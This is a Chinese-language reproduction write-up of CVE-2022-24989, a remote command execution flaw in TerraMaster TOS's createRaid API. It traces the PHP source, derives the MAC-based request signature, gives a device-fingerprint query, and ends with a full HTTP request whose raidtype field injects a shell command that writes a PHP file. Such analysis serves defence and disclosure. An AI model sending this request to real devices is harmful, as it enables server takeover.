TerraMaster TOS createRaid 远程命令执行漏洞 CVE-2022-24989¶
漏洞描述¶
TerraMaster TOS mobile.class.php文件的createRaid方法存在远程命令执行漏洞 ，攻击者配合 CVE-2022-24990漏洞可以获取服务器权限
漏洞影响¶
TerraMaster TOS < 4.2.31
网络测绘¶
"TerraMaster" && header="TOS"
漏洞复现¶
登录页面

查看 mobile.class.php文件中的 createRaid方法, 其中参数raidtype和参数diskstring均为可控参数

注意这一行代码并跟踪 volume_make_from_disks 方法
$ret = $vol->volume_make_from_disks($this->in['raidtype'], $filesystem, $disks, $volume_size);

可以看到方法调用中的 $levek 参数是可控参数，传入 _backexec方法中，可导致命令拼接执行恶意命令

回到 mobile.class.php 文件开头的定义
static $notCheck = [
"webNasIPS", "getDiskList", "createRaid", "getInstallStat", "getIsConfigAdmin", "setAdminConfig", "isConnected",'createid',
'user_create','user_bond','user_release','login', 'logout', 'checkCode', "wapNasIPS"
];
//不验证头信息是否匹配...
static $notHeader = ["fileDownload", "videoPlay", "imagesThumb", "imagesView", "fileUpload", "tempClear", "wapNasIPS", "webNasIPS", "isConnected"];
private static $U = null;
private static $filter = array(".", "..", ".svn", "lost+found", "aquota.group", "aquota.user");
发现 $notHeader 数组中并不存在方法名 createRaid，看一下 api.php 中的定义

$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
#防止请求重放验证...
if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
$instance->output("Illegal request, timeout!", 0);
}
}
$instance->$function();
由于实例化的过程中存在验证请求头，所以需要通过if判断才能调用该方法进行命令执行
if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
$instance->output("Illegal request, timeout!", 0);
}
看到这里主要是两个参数值得关注: HTTP_TIMESTAMP 和 HTTP_SIGNATURE
跟踪方法 tos_encrypt_str 在源码中并没有找到，我们查看下php扩展函数列表


下载这个 so文件使用 IDA打开 搜索字符串 tos_encrypt_str


跟进方法 get_mac_addr

这里可以看到获取 eth0网卡的 mac，再经过 php_sprintf， 跟进下 &ubk_38fa

实际上就是获取了 mac的最后3个字节, 例如mac地址为: 11.22.33.44.55.66, 经过后获取为 445566

回到函数执行的地方，我们就可以知道，实际上这个函数等同于
# mac addr 11:22:33:44:55:66
tos_encrypt_str(xxxxxx) = md5(445566xxxxxx)
看看之前的判断代码
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
#防止请求重放验证...
if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
$instance->output("Illegal request, timeout!", 0);
}
}
$instance->$function();
TIMESTAMP参数为当前时间戳，这里的判断逻辑就很清楚了
md5(mac地址后三字节 + 当前时间戳) = $_SERVER['HTTP_SIGNATURE']
通过之前提到的漏洞 CVE-2022-24990 泄漏的 PWD和mac地址，我们就可以利用这个命令执行漏洞了, 通过刚刚的逻辑写POC获取信息

在发送请求包写入 php恶意文件
POST /module/api.php?mobile/createRaid HTTP/1.1
Host:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Authorization: $1$hq6UR8XW$ti.QT5f9wQQg1PcJFWdub/
Cache-Control: max-age=0
Content-Length: 82
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=f1d33267c0ee0c34e9a348402205e272; tos_visit_time=1647670158
Signature: e856010781d0efd904d57ac40517859c
Timestamp: 1647678138
Upgrade-Insecure-Requests: 1
User-Agent: TNAS
raidtype=%3Becho+%22%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3Evuln.php&diskstring=XXXX

访问写入的文件
